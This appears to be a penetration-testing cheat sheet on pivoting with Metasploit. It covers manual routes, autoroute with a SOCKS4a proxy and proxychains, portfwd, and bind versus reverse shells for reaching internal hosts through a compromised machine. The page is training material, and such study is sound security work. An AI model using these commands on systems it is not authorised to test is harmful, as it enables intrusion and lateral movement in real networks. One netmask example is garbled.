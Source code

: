 # ⭕ Metasploit Pivoting

## <mark style="color:red;">Manual Route</mark>

this method will give the full access to the target IP address like its siting in our LAN ( only accessible in metasploit )

```
background the session
route add 10.0.1.0/24 [session id]
```

## <mark style="color:red;">Auto Route Reverse Tunnel</mark>

Once the Meterpreter session is active, we’ll send it to the background and switch to the multi/manage/autoroute module. This will allow us to configure a reverse tunnel through the Meterpreter session and use that with a SOCKS proxy.

```
use multi/manage/autoroute
set session 1
exploit

use auxiliary/server/socks4a
set srvhost 127.0.0.1
exploit -j
```

The autoroute module creates a reverse tunnel and allows us to direct network traffic into the appropriate subnet.

We can use a local proxy application like Proxychains to force TCP traffic through a TOR or SOCKS proxy. We can configure it by adding the SOCKS4 proxy IP and port to the config file (`/etc/proxychains.conf`):

```
proxychains rdesktop 192.168.120.10
```

The route created by Meterpreter also allows us to access any other computer on that internal network.

{% hint style="warning" %}
If you get an error regarding the CredSSP, use xfreerdp instead of rdesktop.&#x20;
{% endhint %}

## <mark style="color:red;">Port Forward</mark>

forward only the given remote port to the given local port specifically ( only accessible in msfconsole )

```
portfwd [add | delete | list | flush]  -L [optional local ip] -l [local port] -p [remote port] -r [remote ip]

portfwd add -L 0.0.0.0 -l 8000 -p 80 -r 10.1.0.5
```

now we can scan our local port 8000 to scan the remote port 80 of the target

## <mark style="color:red;">Pivote Bind Shell</mark>

usually used when exploiting a machine in the internal network. first we have to do port forwarding to scan the network

```
portfwd add -L 0.0.0.0 -l 8000 -p 80 -r 10.1.0.5
```

now add a route to target ip in the internal network

```
route -h
route add 10.0.1.5/24 [session number] 
```

now choose your exploit and set the rhost to the target ip in the internal network and run the exploit and remember:

```
background# meterpreter session
route add <IP_victim> <Netmask> <Session> # (ex: route add 10.10.10.14 2552.55.255.0 8)
use auxiliary/server/socks4a
run #Proxy port 1080 by default
echo "socks4 127.0.0.1 1080" > /etc/proxychains.conf #Proxychains
```

Another way:

```
background #meterpreter session
use post/windows/manage/autoroute
set SESSION <session_n>
set SUBNET <New_net_ip> #Ex: set SUBNET 10.1.13.0
set NETMASK <Netmask>
run
use auxiliary/server/socks4a
run #Proxy port 1080 by default
```

{% hint style="warning" %}
#### Always use a bind shell when pivoting.
{% endhint %}

if we use a reverse shell the target machine on the internal network wont be able to route back the packets to us

![](<../../.gitbook/assets/image (267).png>)

## <mark style="color:red;">Pivot Reverse Shell</mark>

while using a reverse shell with pivoting we have to set the RHOST to target ip in the internal network and set the LHOST to the machine that we have already compromized

```
RHOST >>> internal target
LHOST >>> compromized machine
```

![](<../../.gitbook/assets/image (269).png>)
